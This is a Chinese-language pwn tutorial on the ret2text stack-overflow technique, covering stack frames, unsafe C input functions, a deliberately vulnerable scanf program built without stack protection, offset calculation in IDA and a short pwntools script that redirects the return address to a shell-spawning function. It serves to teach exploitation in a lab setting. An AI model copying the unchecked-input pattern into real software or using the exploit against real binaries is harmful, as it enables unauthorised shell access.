 ```yaml
---
title: "ret2text"
description: ""
lead: ""
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

栈是进程最常用到的内存类型之一，它具有高效和简单的特点，主要用来存储函数调用信息。通常来说32位的程序一个栈单元为4个字节，而64位程序一个栈单元为8个字节，然后多个栈单元可以组成一个 `栈帧` ，栈帧的大小主要看函数信息的多少。一个栈单元通常包括以下几部分：

- 函数的参数，一般有父函数压入栈中
- 函数的返回地址，即函数执行完后ret跳转的地址
- 帧指针，即上一个栈帧的位置
- 局部变量，即函数内部声明的变量

![a5b8d65a6d18aadeec8932e39c376e6e](images/a5b8d65a6d18aadeec8932e39c376e6e.png)  

栈有三大很重要的作用，同时也体现在栈帧结构里面了：

1. 保存函数的局部变量
2. 函数调用时传递参数
3. 保存函数返回后的地址

而我们所有的栈溢出基本都是围绕着三大作用在进行，包括这里的ret2text题型。这种题型比较简单，它主要利用的是第三大功能，即函数返回地址，我们可以来看一个简单的程序的汇编代码

```cpp
void main() {
    int a = 1;
    int b = 2;
}
// gcc -m32 test.c -o test -fno-pic -fno-stack-protector -no-pie
```

生成的汇编代码为

```c
080483db <main>:
 80483db:       55                      push   ebp
 80483dc:       89 e5                   mov    ebp,esp
 80483de:       83 ec 10                sub    esp,0x10
 80483e1:       c7 45 fc 01 00 00 00    mov    DWORD PTR [ebp-0x4],0x1
 80483e8:       c7 45 f8 02 00 00 00    mov    DWORD PTR [ebp-0x8],0x2
 80483ef:       90                      nop
 80483f0:       c9                      leave  
 80483f1:       c3                      ret 

```

主要关注函数序言和函数尾声，在进入main函数之前，已经由父函数将main函数的返回地址给压入栈中，接着通过函数序言将帧指针压入栈中，并将帧指针的地址赋值给ebp，经过函数体后则进入函数尾声，尾声主要依靠 `leave` 指令，该指令相当于 `mov esp, ebp;pop ebp` ，当执行完该指令后当前栈顶就变为了main函数的返回地址，而 `ret` 指令的作用是跳转到当前栈顶存储的地址处继续执行（即修改eip为当前栈顶存储的那个值），这里也就是main函数的返回地址。

![a5821d0d5527947c6adb93598fea8cc2](images/a5821d0d5527947c6adb93598fea8cc2.png)  

而ret2text顾名思义，就是控制 `ret` 指令跳转的地址（即函数返回地址）为程序里现有的 `text` 段代码，以达到RCE的过程。至于如何将函数返回地址给修改就需要设计到核心理念 `溢出` ，超过容器本身大小的操作就叫溢出。对于C语言来说，每个变量的大小都是固定的（堆以外），学过的都知道C语言不允许动态设置数组的大小，只能是固定值，例如 `char a[i]` 就是错误的。这时候C语言里有些函数就会变得非常危险，这些危险函数更像是面对人而言并非对程序，比如 `gets` 函数，它是一个输入函数，可以将你输入的内容存进数组当中，并且只有当人输入 `\n` 回车的时候才会截断输入，这样的截断对人来说是合理的，但是对于数组来说一点都不合理，对于数组来说应该是不大于数组大小的输入都是合理的，当你的输入超过数组大小则应该截断。可以 `gets` 函数并没有这么智能，也就是我们可以对该数组进行溢出的操作。

常见的危险函数有：

- `gets` 函数，遇到 `\n` 截断，不保留 `\n` 字符串后面添加 `\x00`
- `fgets` 函数，遇到 `\n` 截断，保留 `\n` 并添加 `\x00`
- `scanf` 函数 `%s` 格式化字符串输入，遇到 `\x09` 、 `\x0a` 、 `\x0b` 、 `\x0c` 、 `\x0d` 、 `\x20` 截断，不保留截断字符最后添加 `\x00`
- `sscanf` 函数，和 `scanf` 差不多，多了个 `\x00` 截断
- str类函数（ `strcpy` 、 `strcat` 等）遇到 `\x00` 截断，保留 `\x00`
- `read` 函数，无截断字符，不添加字符

我们之前说过如果你在函数内部声明一个变量，那么这个就是一个局部变量，存储在栈中，而局部变量邻近的位置并不是空，而是一些其他数据，这时候如果我们通过危险函数对这个局部变量进行溢出，那么我们将可以修改其他数据的内容，只要这个溢出的字节数够多，那么我们就可以修改函数返回地址。

而现有的 `text` 段代码的话通常会是 `system("/bin/sh")` 、 `system("$0")` 、 `execve("/bin/sh", 0, 0)` 这种直接获取shell进程的函数调用

![b9b59d14a021e54f814be527a8daedf9](images/b9b59d14a021e54f814be527a8daedf9.png)  

以一个简单的程序来讲具体实现

```c
#include<stdio.h>
#include<stdlib.h>
void hint()
{
    system("$0");
}

int main()
{
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
    return 0;
}
// gcc ret2text.c -o ret2text -no-pie -fno-stack-protector

```

做ret2text记住三大步骤：

1. 找溢出点
2. 计算局部变量到函数返回地址的偏移量
3. 找getshell代码片段地址

根据危险函数列表很容易就可以找到溢出点，即scanf输入处

![dc59fe24e49ebcf598ae82f3af98d3d4](images/dc59fe24e49ebcf598ae82f3af98d3d4.png)  

其次计算偏移量，用IDA有个便捷的方法来计算偏移量，双击上图中的输入变量即v4，可以看到下图

![7caa7bd5a950c570800aaaea4993d6d0](images/7caa7bd5a950c570800aaaea4993d6d0.png)  

这里 `var_10` 即变量， `s` 即帧指针，而 `r` 则是函数返回地址，左侧的地址是相对偏移地址，右侧是每个数据占据的字节大小，可以很容易计算出变量到函数返回地址之间有16+8=24字节的偏移量

最后找getshell代码片段

![308e34110a919be37fafd2c1cb7ab18d](images/308e34110a919be37fafd2c1cb7ab18d.png)  

你可以直接用hint函数地址，也可以只用从给system函数传递参数处的指令开始，两者结果是一样的

最后我们就可以编写攻击脚本了

```python
from pwn import*    # 引入pwntools包
o = process("./ret2text")    # 执行ret2text程序并获取其I/O接口
payload = b'a'*24    # 填充变量与函数返回地址的空隙
payload += p64(0x4005d6)    # 0x4005d6是getshell代码片段地址，p64的作用是将地址打包成小端序填入栈单元
o.sendline(payload)    # 发送payload，会在结尾加 '\n'
o.interactive()    # 进入交互模式
```

![2092706e1062c14ccbabe46f32ccf796](images/2092706e1062c14ccbabe46f32ccf796.png)
